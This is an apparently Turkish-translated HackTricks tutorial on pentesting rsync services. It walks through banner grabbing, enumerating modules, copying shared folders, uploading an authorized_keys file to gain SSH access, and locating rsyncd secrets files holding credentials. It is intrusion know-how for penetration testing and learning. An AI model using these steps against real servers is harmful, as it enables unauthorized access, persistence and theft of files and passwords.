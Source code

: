 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Temel Bilgiler**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync**, bir bilgisayar ile harici bir sabit disk arasında ve [ağlı](https://en.wikipedia.org/wiki/Computer_network) [bilgisayarlar](https://en.wikipedia.org/wiki/Computer) arasında [dosyaları](https://en.wikipedia.org/wiki/Computer_file) [verimli bir şekilde](https://en.wikipedia.org/wiki/File_transfer) [aktarmak](https://en.wikipedia.org/wiki/File_transfer) ve [senkronize etmek](https://en.wikipedia.org/wiki/File_synchronization) için bir yardımcı programdır. Dosyaların [değiştirilme zamanlarını](https://en.wikipedia.org/wiki/Timestamping_\(computing\)) ve boyutlarını karşılaştırarak çalışır.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) Genellikle [Unix benzeri](https://en.wikipedia.org/wiki/Unix-like) [işletim sistemlerinde](https://en.wikipedia.org/wiki/Operating_system) bulunur. Rsync algoritması, [delta kodlama](https://en.wikipedia.org/wiki/Delta_encoding) türüdür ve ağ kullanımını minimize etmek için kullanılır. [Zlib](https://en.wikipedia.org/wiki/Zlib) ek [veri sıkıştırması](https://en.wikipedia.org/wiki/Data_compression) için kullanılabilir,[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) ve [SSH](https://en.wikipedia.org/wiki/Secure_Shell) veya [stunnel](https://en.wikipedia.org/wiki/Stunnel) güvenlik için kullanılabilir.

**Varsayılan port:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Enumeration

### Afiş & Manuel iletişim
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Paylaşılan Klasörleri Sayma**

**Rsync modülleri**, **şifrelerle korunabilecek** **dizin paylaşımları** olarak tanınır. Mevcut modülleri belirlemek ve şifre gerektirip gerektirmediğini kontrol etmek için aşağıdaki komutlar kullanılır:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Dikkat edin ki bazı paylaşımlar listede görünmeyebilir, bu da onları gizleyebilir. Ayrıca, bazı paylaşımlara erişim belirli **kimlik bilgileri** ile kısıtlanmış olabilir, bu da **"Erişim Reddedildi"** mesajı ile belirtilir.

### [**Brute Force**](../generic-hacking/brute-force.md#rsync)

### Manuel Rsync Kullanımı

Bir **modül listesi** elde edildikten sonra, eylemler kimlik doğrulamanın gerekip gerekmediğine bağlıdır. Kimlik doğrulama olmadan, bir paylaşılan klasörden yerel bir dizine **listeleme** ve **kopyalama** işlemi şu şekilde gerçekleştirilir:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Bu işlem **dosyaları özyinelemeli olarak aktarır**, niteliklerini ve izinlerini korur.

**Kimlik bilgileri** ile, paylaşılan bir klasörden listeleme ve indirme aşağıdaki gibi yapılabilir; burada bir şifre istemi görünecektir:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
To **upload content**, such as an _**authorized\_keys**_ file for access, use:  
**içerik yüklemek** için, erişim için bir _**authorized\_keys**_ dosyası gibi, şunu kullanın:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

rsyncd yapılandırma dosyasını bulmak için şunu çalıştırın:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
Bu dosya içinde, bir _secrets file_ parametresi **rsyncd kimlik doğrulaması** için **kullanıcı adları ve şifreler** içeren bir dosyaya işaret edebilir.

## Referanslar

* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
